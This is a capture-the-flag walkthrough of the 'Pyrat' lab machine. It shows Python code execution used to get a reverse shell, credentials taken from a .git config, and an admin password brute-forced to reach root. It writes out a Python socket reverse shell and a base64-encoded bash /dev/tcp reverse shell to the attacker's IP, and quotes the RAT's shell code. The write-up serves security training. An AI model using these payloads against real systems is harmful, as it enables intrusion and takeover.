## TL;DR

First we get reverse shell using python command execution. Then we find `think` credentails inside `.git` directory. We also find `pyrat.py.old` in the git repository, which gives us clue for another endpoint. We brute force endpoints and then brute force passwords for the endpoint `admin` we found, and then get root shell.

This challenge is basically exploiting the python RAT that was created by [https://github.com/josemlwdf/](https://github.com/josemlwdf/) and planted on this machine.

### Recon

we start with `nmap`, using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target -oX nmap.xml -oN nmap.txt -Pn
```



as we can see, port `22` is opened with ssh and port `8000` with simple.http server based on python.
```bash
PORT     STATE SERVICE  VERSION                     
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                                                                                             
| ssh-hostkey:                                      
|   3072 00:6d:42:05:8b:63:7e:48:d7:2a:fc:ce:2c:80:ab:3c (RSA)                                           
|   256 65:a8:10:45:f6:95:a2:4c:2e:24:6a:b5:00:4e:28:ad (ECDSA)                                          
|_  256 44:48:eb:e6:38:7f:9c:79:f3:29:5f:b3:4d:38:61:91 (ED25519)                                        
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2                                                     
|_http-title: Site doesn't have a title (text/html; charset=utf-8).                                      
| fingerprint-strings:                              
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop:                                                                                                        
|     source code string cannot contain null bytes                                                       
|   FourOhFourRequest, LPDString, SIPOptions:                                                            
|     invalid syntax (<string>, line 1)                                                                  
|   GetRequest:                                     
|     name 'GET' is not defined                     
|   HTTPOptions, RTSPRequest:                       
|     name 'OPTIONS' is not defined                 
|   Help:                                           
|_    name 'HELP' is not defined                    
|_http-open-proxy: Proxy might be redirecting requests                                                   
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2           
```

### Achieve reverse shell using python command execution

When I tried to access the ip in the port `8000`, I got this:



So, Let's try to access using `nc`:
```bash
┌──(agonen㉿kali)-[~/thm/Pyrat]
└─$ nc $target 8000
?
invalid syntax (<string>, line 1)
help

ls
name 'ls' is not defined
id

lasd
name 'lasd' is not defined
```

We can see that some commands working while other not.
Because we already know from the `nmap` scan we have simpleHTTP server, which is based on python `SimpleHTTP/0.6 Python/3.11.2`, We can try to send python commands, maybe it'll work.



As we can see, it executed the commands.
We'll use [https://www.revshells.com/](https://www.revshells.com/) to get our reverse shell:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.147",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```



And then we get our reverse shell, first to port `4443`, and then we paste the payload from `penelope` to get more enhanced revers shell:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuOS4yLjE0Ny80NDQ0IDA+JjEpICY=|base64 -d|bash
```



### Find email and .git directory, and find credentials for user think

when we sniff around, we can find interesting email in the `think` user box

I executed `peass_ng` and saw this email files.


Let's read `/var/mail/think`:



```bash
www-data@ip-10-10-154-30:/$ cat /var/mail/think 
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```

As we can see, it maintain there is some `RAT` that is running on the machine, the mail has been sent by `root@pyrat` to `think@pyrat`.
When we type `ps aux` to watch running processes, we can detect `/root/pyrat.py`:



Still, using `peass_ng` we can detect interesting `.git` directory at location `/opt/dev/.git`.



We can take it to our machine using `download /opt/dev/.git` command in `penelope`, and then initial a repository on this directory.

Otherway, we can use http server in python:
```bash
www-data@ip-10-10-53-13:/$ python3 -m http.server 8081 -d /opt/dev
```
and on our local machine use `wget` to get the `.git` directory

```bash
wget -m http://$target:8081/.git
```



Then, we execute `git init` to initial the repoistory, and find `pyrat.py.old`:
```bash
┌──(agonen㉿kali)-[~/thm/Pyrat/rebuild_git/10.10.53.13:8081]
└─$ git init
Reinitialized existing Git repository in /home/agonen/thm/Pyrat/rebuild_git/10.10.53.13:8081/.git/
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Pyrat/rebuild_git/10.10.53.13:8081]
└─$ git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    pyrat.py.old

no changes added to commit (use "git add" and/or "git commit -a")
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Pyrat/rebuild_git/10.10.53.13:8081]
└─$ git restore pyrat.py.old
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Pyrat/rebuild_git/10.10.53.13:8081]
└─$ git log -a              
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf (HEAD -> master)
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint
```



This is `pyrat.py.old`, probably the rat 
```py
┌──(agonen㉿kali)-[~/thm/Pyrat/rebuild_git/10.10.53.13:8081]
└─$ cat pyrat.py.old          
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

...............................................
```

We keep exploring the `.git` directory, I searched for all `pass` strings using `grep`, and found the password of user `think`
```bash
┌──(agonen㉿kali)-[~/thm/Pyrat/rebuild_git/10.10.53.13:8081]
└─$ grep -irn "pass"
.git/config:15:         password = _TH1NKINGPirate$_
.git/hooks/fsmonitor-watchman.sample:11:# The hook is passed a version (currently 1) and a time in nanoseconds
                                                                                                                                                 
┌──(agonen㉿kali)-[~/thm/Pyrat/rebuild_git/10.10.53.13:8081]
└─$ cat .git/config 
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_
```

So now, we got these credentials:
```bash
think:_TH1NKINGPirate$_
```



and getting the user flag:

```bash
┌──(agonen㉿kali)-[~/thm/Pyrat]
└─$ ssh think@$target
think@10.10.53.13's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 
 < REDACTED >

You have mail. # < --- COOL ^_^
Last login: Thu Jun 15 12:09:31 2023 from 192.168.204.1
think@ip-10-10-53-13:~$ cat user.txt 
996bdb1f619a68361417cabca5454705
```

### Find endpoint and brute force password to get root shell

Let's go back to the python script we found earlier:
```py
...............................................

def switch_case(client_socket, data):
    if data == 'some_endpoint':
        get_this_enpoint(client_socket)
    else:
        # Check socket is admin and downgrade if is not aprooved
        uid = os.getuid()
        if (uid == 0):
            change_uid()

        if data == 'shell':
            shell(client_socket)
        else:
            exec_python(client_socket, data)

def shell(client_socket):
    try:
        import pty
        os.dup2(client_socket.fileno(), 0)
        os.dup2(client_socket.fileno(), 1)
        os.dup2(client_socket.fileno(), 2)
        pty.spawn("/bin/sh")
    except Exception as e:
        send_data(client_socket, e

...............................................
```

We can see it can access "some_endpoint", however, we don't know what is it exactly. 
One option is to remember that the commit was done by `josemlwdf@github.com`, and when I googled, I found this [https://github.com/josemlwdf/PyRAT](https://github.com/josemlwdf/PyRAT) github repo, and more specific, this file [https://raw.githubusercontent.com/josemlwdf/PyRAT/refs/heads/main/pyrat.py](https://raw.githubusercontent.com/josemlwdf/PyRAT/refs/heads/main/pyrat.py) which contain the lines:
```py
def switch_case(client_socket, data, admins):
    if data == 'admin':
        get_admin(client_socket, admins)
    else:
        # Check if socket is admin and downgrade if not approved
        uid = os.getuid()
        if (uid == 0) and (str(client_socket) not in admins):
            change_uid()

        if data == 'shell':
            shell(client_socket)
            remove_socket(client_socket, admins)
        else:
            exec_python(client_socket, data)

# Handles the Admin endpoint
def get_admin(client_socket, admins):
    uid = os.getuid()
    if uid != 0:
        send_data(client_socket, "Start a fresh client to begin.")
        return

    password = 'testpass'

    for _ in range(3):  # Three password attempts
        # Ask for Password
        send_data(client_socket, "Password:")

        # Receive data from the client
        try:
            data = client_socket.recv(1024).decode("utf-8")
        except Exception as e:
            # Send the exception message back to the client
            send_data(client_socket, str(e))
            return

        if data.strip() == password:
            admins.append(str(client_socket))
            send_data(client_socket, 'Welcome Admin!!! Type "shell" to begin')
            break
```

We can see there is some endpoint which is called `admin` and is waiting for password, it can get the password 3 times.

Option 2 is to use the script we wrote:
```py

```

and then when executing we can find the `admin` endpoint.



The next step will be the discovering of the password using another script I wrote:
```py

```



And we find the password `abc123`.

now just call `admin`, give the password `abc123` and spawn root shell using `shell`



```bash
┌──(agonen㉿kali)-[~/thm/Pyrat]
└─$ nc $target 8000
admin
Password:
abc123
Welcome Admin!!! Type "shell" to begin
shell
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
ba5ed03e9e74bb98054438480165e221
```